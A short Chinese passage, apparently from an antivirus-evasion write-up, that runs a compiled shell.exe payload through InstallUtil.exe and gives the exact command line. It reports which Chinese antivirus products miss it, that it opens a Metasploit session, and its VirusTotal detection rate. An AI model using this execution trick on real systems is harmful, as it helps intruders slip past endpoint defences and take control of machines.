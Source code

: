 编译生成的shell.exe直接执行是不行的，需要使用InstallUtil.exe来触发。

使用InstallUtil.exe执行shell.exe，360安全卫士会检测到InstallUtil.exe执行预警，360杀毒和火绒动态和静态均无预警。

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U C:\test\shell.exe
```

![773a9e5e3906ddf7c63e1d5deee21be7](images/2020.03-bypass-04/16.png)

msf中可上线

![f829c0337debfd7e5aba27d60452690f](images/2020.03-bypass-04/17.png)

virustotal.com中shell.exe文件33/71个报病毒，这个有点出乎意料。
